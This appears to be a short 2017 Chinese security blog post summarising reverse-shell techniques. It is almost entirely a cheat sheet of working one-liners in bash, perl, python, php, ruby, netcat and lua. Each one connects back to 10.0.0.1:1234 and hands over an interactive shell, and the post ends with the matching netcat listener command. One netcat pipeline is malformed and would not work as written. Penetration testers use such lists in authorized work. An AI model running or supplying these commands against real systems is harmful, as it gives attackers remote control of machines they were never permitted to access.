 Title: 反弹shell总结
Date: 2017-05-27 14:20
Modified: 2017-05-27 14:20
Category: 安全
Tags: 反弹shell
Slug: K4
Authors: nJcx
Summary: 反弹shell总结



#### 汇总

```bash

bash -i >& /dev/tcp/10.0.0.1/1234 0>&1

```

```perl

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

```python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

```php

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

```

```php
php -r 'exec("/bin/bash -i >& /dev/tcp/10.0.0.1/1234")'
```

```ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

```bash

nc -e /bin/sh 10.0.0.1 1234

```

如果nc不支持-e，

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

```

```bash
nc 10.0.0.1 6666|/bin/bash|10.0.0.1 1234

```

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

在带有公网的机器上开启监听

```bash

nc -nvlp 1234

```